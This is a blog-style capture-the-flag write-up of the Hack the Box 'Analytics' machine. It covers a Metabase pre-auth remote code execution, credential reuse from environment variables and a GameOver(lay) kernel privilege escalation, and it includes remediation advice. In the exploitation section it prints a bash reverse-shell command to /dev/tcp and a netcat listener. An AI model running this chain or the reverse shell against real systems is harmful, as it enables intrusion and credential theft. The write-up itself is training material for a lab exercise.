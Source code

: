 ```yaml
---
draft: false
title: "Hack the Box #2 - Analytics w/o Metasploit"
date: 2024-03-06T17:27:24+00:00
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
  - Linux
cover:
  image: hack_the_box_2_analytics.png
  alt: hack_the_box_2_analytics.png
---
```

## Introduction
This is my first Hack the Box machine [pwned](https://www.hackthebox.com/achievement/machine/1695260/569) and it’s called Analytics. Here is a mock write-up of the lab because as we all know. It’s great being able to pwn things but if we can’t communicate the remediations to what we have done then there is no benefit past that juicy dopamine hit when you get root 😀

## Executive summary

The attacker achieved an initial foothold by abusing a pre-authentication remote code execution exploit to achieve a reverse shell. User credentials we then found in the environment variables and used to establish a user shell. This can be prevented by upgrading Metabase to the latest version and removing the environment variables with user account details if possible as a secondary objective.

Privilege was then escalated by using 2 kernel exploits from 2023 chained together. These can be remedied by upgrading our kernel version.  
The general recommendation is to update the software mentioned to later versions.

---
## Technical Findings
### Enumeration

Starting as per with a good old Nmap

![HackerImage](https://i.imgur.com/D6fORW7.png?resize=798%2C212&ssl=1#center)

Nothing of too much interest, let’s take a closer look at the website.

For this will need to put <http://analytical.htb/> in my hosts file and run this puppy through Burp suite

There isnt much here but the login reroutes us to <http://data.analytical.htb/>. Adding that to our hosts file gets us this lovely Metabase login screen

![HackerImage](https://i.imgur.com/OaJ9aIR.png?resize=504%2C552&ssl=1#center)

Lets dive into Metabase. There are default credentials available but those don't work. Looking for explicit exploits on the internet we find this [lovely git repo](https://github.com/Pyr0sec/CVE-2023-38646).

It allows for pre-auth remote code execution, this is exactly what we want. For this we need the setup token that can be found at the path `/api/session/properties`

Hitting this endpoint gets us a wonderful .json properties file. And within it we find the value of `setup-token` required for the execution of the exploit

![HackerImage](https://i.imgur.com/xVUvF7H.png?resize=1048%2C669&ssl=1#center)

---
### Exploitation

Using this wonderful script combined with the token we can initialize a reverse shell using the following command, oh and also don’t forget the listener on the other side:

`bash -i >& /dev/tcp/10.10.14.26/4444 0>&1<br></br>nc -nvlp 4444`

![HackerImage](https://i.imgur.com/HrFdCZ7.png?resize=1136%2C160&ssl=1#center)

The server returns an error message but we got the juicy juicy shell

![HackerImage](https://i.imgur.com/jmRtvHp.png?resize=537%2C183&ssl=1#center)

But sadly there is no flag in `/home/metabase` and mind you we are looking for both a user flag and a root flag… So is this not the user we are meant to be???

After a little digging around on this box for longer than I care to admit… I enumerated everything from cron jobs, running processes, kernel versions, installed apps, and much more looking for either user credentials or a route to escalate my privilage. I looked where I should have looked almost right away `env`

![HackerImage](https://i.imgur.com/S6NJTdc.png?resize=559%2C290&ssl=1#center)

And there is the puppy. META\_USER and META\_PASS. Now could these be used to log in to the open SSH port on 22?

![HackerImage](https://i.imgur.com/GTjtfdt.png?resize=652%2C152&ssl=1#center)

And it works! With our lovely user flag right there.

![HackerImage](https://i.imgur.com/woWFcy3.png?resize=711%2C38&ssl=1#center)

---
### Privilege Escalation

Now to get root. I came back to this bad boy while working in a coffee shop and used the pwnbox provided by Hack the Box as my attack box. Let’s see what we can do.

There are several things I tried to look through. What binaries run within the admin context? Nope… Perhaps some cron jobs? Nope

Well what is the kernel and OS we are running on?

![HackerImage](https://i.imgur.com/JLwNR2a.png?resize=799%2C70&ssl=1#center)

After a Google search for **linux 6.2.0-25-generic 22.04.2-ubuntu privilege escalation**, we found an interesting privilege escalation exploit called **GameOver(lay)** here is a link to a [POC on Github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

The script is a massive one-liner so let’s copy that bad boy onto our target machine and give it execute permissions

![HackerImage](https://i.imgur.com/UlR3Ri3.png?resize=822%2C353&ssl=1#center)

This exploit makes use of two seperate vulnerabilities namely [**CVE-2023-2640**](https://www.cvedetails.com/cve/CVE-2023-2640/) and [**CVE-2023-32629**](https://www.cvedetails.com/cve/CVE-2023-32629/). Lets execute this bad boy!

![HackerImage](https://i.imgur.com/emOZ2X4.png?resize=741%2C112&ssl=1#center)

ROOT BABY!!! and we find a beautiful flag right where we want her!

![HackerImage](https://i.imgur.com/TaAKD3d.png?resize=601%2C47&ssl=1#center)

#### Conclusion

Both the exploitation of the Metabase and Kernel exploits can be solved with simply updating the respective software and operating system.

This was a fun lab and dont worry there are plenty more to come. Oh and if you have read this far… Go touch some grass 😀